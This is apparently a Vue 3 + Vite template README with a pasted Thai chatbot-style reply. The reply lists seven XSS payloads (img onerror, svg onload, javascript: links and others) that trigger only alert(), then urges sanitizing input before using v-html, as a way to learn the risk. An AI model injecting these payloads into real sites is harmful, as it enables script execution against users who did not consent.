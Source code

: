 # Vue 3 + Vite

This template should help get you started developing with Vue 3 in Vite. The template uses Vue 3 `<script setup>` SFCs, check out the [script setup docs](https://v3.vuejs.org/api/sfc-script-setup.html#sfc-script-setup) to learn more.

Learn more about IDE Support for Vue in the [Vue Docs Scaling up Guide](https://vuejs.org/guide/scaling-up/tooling.html#ide-support).

ได้เลย! มีตัวอย่าง **XSS แบบอื่นๆ** ที่อันตราย และ "น่าลอง" อีกเพียบ 🔥  
(แบบที่ Browser ยัง **ปล่อยผ่านได้บ้าง** โดยไม่ block ทันทีเหมือน `<script>`)

---

### 🔥 ตัวอย่าง input เสี่ยง XSS ที่น่าสนใจ

1. **Image Tag with onerror** (ยิงตอนโหลดรูปผิดพลาด)

```html
<img src=x onerror="alert('XSS')">
```

---

2. **SVG Tag with onload** (SVG ก็ยิง JavaScript ได้)

```html
<svg/onload=alert('XSS')>
```

---

3. **Anchor Tag with javascript:** (คลิกลิงก์แล้วโดน)

```html
<a href="javascript:alert('XSS')">Click me</a>
```

(พอกดที่ลิงก์ มันจะรัน `alert('XSS')` ทันที)

---

4. **Iframe Injection** (โหลดเว็บร้าย)

```html
<iframe src="javascript:alert('XSS')"></iframe>
```

(บาง Browser รุ่นเก่าๆ จะโดน)

---

5. **Style Tag with background-image:url(javascript:...)**

```html
<div style="background-image:url('javascript:alert(`XSS`)')">Click here</div>
```

(แต่แบบนี้หลาย browser รุ่นใหม่จะ block แล้วนะ)

---

6. **Math Tag (แบบเนียนๆ)**

```html
<math><mi xlink:href="javascript:alert(1)">CLICK</mi></math>
```

(บาง browser อาจ render แล้วโดน execute)

---

7. **Malformed Tag (HTML ปลอม)**

```html
<details open ontoggle="alert('XSS')">CLICK ME</details>
```

(พอเปิด/ปิด details จะยิง JavaScript ทันที)

---

### 📋 สรุป

| ประเภท | ตัวอย่าง |
|:---|:---|
| Image onerror | `<img src=x onerror=alert(1)>` |
| SVG onload | `<svg/onload=alert(1)>` |
| Link javascript: | `<a href="javascript:alert(1)">CLICK</a>` |
| Iframe src | `<iframe src="javascript:alert(1)">` |
| CSS background | `<div style="background-image:url('javascript:alert(1)')">` |
| Math + xlink | `<math><mi xlink:href="javascript:alert(1)">` |
| Details ontoggle | `<details open ontoggle=alert(1)>` |

---

### ❗ บทเรียนสำคัญ

**XSS ไม่ได้มีแค่ `<script>` เท่านั้น!**  
แต่มัน **สอดแทรกได้หลายแบบมาก** ทั้ง HTML, JS Event, Attribute

**ดังนั้น** เวลารับ input แล้วใช้ `v-html` ต้องระวังแบบสุดๆ หรือ sanitize ทุกครั้งก่อน render

---

### ✨ ถ้าอยากลอง demo ให้ "เห็นเต็มๆ"  
เช่น input 1 ช่อง แล้วใส่อะไรก็ได้ ลองยิงทุกตัวอย่าง XSS แบบ menu เลือก  
เดี๋ยวผมทำ version **Vite + Vue3 + DOMPurify** ให้ลองก็ได้

**เอาไหม?** (เดี๋ยวทำเป็น playground เล็กๆให้เลย สนุกแน่นอน 🚀)  
อยากได้มั้ย? 🎯  
**(ตอบว่าเอาหรือไม่เอาได้เลย!)**
